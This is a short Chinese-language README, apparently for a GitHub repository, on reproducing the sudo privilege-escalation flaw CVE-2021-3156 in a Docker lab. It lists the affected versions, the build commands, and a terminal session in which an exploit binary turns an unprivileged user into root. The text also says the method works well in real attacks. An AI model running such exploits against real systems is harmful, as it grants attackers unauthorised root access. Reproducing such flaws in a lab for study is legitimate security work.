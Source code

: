 # 1. cve-2021-3156

复现环境，利用方式为非交互式，在实战中更为有效

| name  | version         |
| ----- | --------------- |
| sudo  | 1.8.31-1ubuntu1 |
| glibc | 2.31-0ubuntu9.2 |

## 1.1. 复现

创建docker image并启动container

``` bash
docker build . -t cve-2021-3156
docker run -ti cve-2021-3156 /bin/bash
```

## 1.2. 验证

验证cve-2021-3156

``` bash
victim@8f54ce1812d8:~/CVE-2021-3156$ ll
total 44
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ./
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ../
-rw-r--r-- 1 victim victim   211 Feb 18 02:02 Makefile
-rwxr-xr-x 1 victim victim 17472 Feb 18 02:29 exploit*
-rw-r--r-- 1 victim victim  3225 Feb 18 02:11 exploit.c
drwxr-xr-x 2 victim victim  4096 Feb 18 02:29 libnss_x/
-rw-r--r-- 1 victim victim   607 Feb 18 02:02 shellcode.c
victim@8f54ce1812d8:~/CVE-2021-3156$ id
uid=1000(victim) gid=1000(victim) groups=1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$ ./exploit id
uid=0(root) gid=0(root) groups=0(root),1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$
```

结果图

![](./exploit.png)
